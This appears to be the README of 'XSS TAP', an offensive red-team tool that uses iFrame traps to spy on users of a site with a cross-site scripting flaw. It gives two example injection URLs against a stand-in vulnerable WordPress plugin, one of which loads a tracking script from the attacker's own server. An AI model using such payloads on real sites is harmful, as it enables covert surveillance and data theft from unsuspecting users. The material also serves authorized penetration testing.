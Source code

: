 # XSS TAP
Tailored XSS payload that uses iFrame traps to spy on user. Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 
flask
flask-cors



https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27http://localhost:8444/lib/telemlib.js%27%3E%3C/script%3E


https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
